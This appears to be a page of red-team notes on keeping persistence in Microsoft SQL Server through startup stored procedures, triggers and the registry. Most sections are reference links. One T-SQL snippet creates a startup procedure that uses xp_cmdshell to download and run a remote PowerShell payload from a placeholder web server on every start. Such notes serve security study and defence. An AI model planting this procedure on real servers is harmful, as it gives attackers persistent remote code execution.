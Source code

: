 ### Startup Stored Procedures

```sql
-- HeidiSQL
-- Create a stored procedure (assuming xp_cmdshell is already enabled)
USE master 
GO
CREATE PROCEDURE sp_autops 
AS 
EXEC master..xp_cmdshell 'powershell -C "iex (new-object System.Net.WebClient).DownloadString(''http://webserver/payload.ps1'')"' 
GO

-- Mark the stored procedure for automatic execution 
EXEC sp_procoption @ProcName = 'sp_autops', @OptionName = 'startup', @OptionValue = 'on';

-- To list stored procedures marked for automatic execution 
SELECT [name] FROM sysobjects WHERE type = 'P' AND OBJECTPROPERTY(id, 'ExecIsStartUp') = 1;
```

Reference: 

- https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-procoption-transact-sql
- https://blog.netspi.com/sql-server-persistence-part-1-startup-stored-procedures/

### Triggers

A trigger is a special kind of stored procedure that automatically executes when an event occurs in the SQL Server.

Reference: https://docs.microsoft.com/en-us/sql/t-sql/statements/create-trigger-transact-sql

- DDL triggers:

	Reference: 
	- https://blog.netspi.com/maintaining-persistence-via-sql-server-part-2-triggers/
	- https://docs.microsoft.com/en-us/sql/relational-databases/triggers/implement-ddl-triggers
	- https://docs.microsoft.com/en-us/sql/relational-databases/triggers/ddl-event-groups

- DML triggers:

	Reference: 
	- https://blog.netspi.com/maintaining-persistence-via-sql-server-part-2-triggers/
	- https://docs.microsoft.com/en-us/sql/relational-databases/triggers/create-dml-triggers

- Logon triggers:

	Reference: 
	- https://docs.microsoft.com/en-us/sql/relational-databases/triggers/logon-triggers
 

### Registry

References:

- https://support.microsoft.com/en-us/help/887165/bug-you-may-receive-an-access-isdenied-error-message-when-a-query-cal
- https://blog.netspi.com/get-windows-auto-login-passwords-via-sql-server-powerupsql/
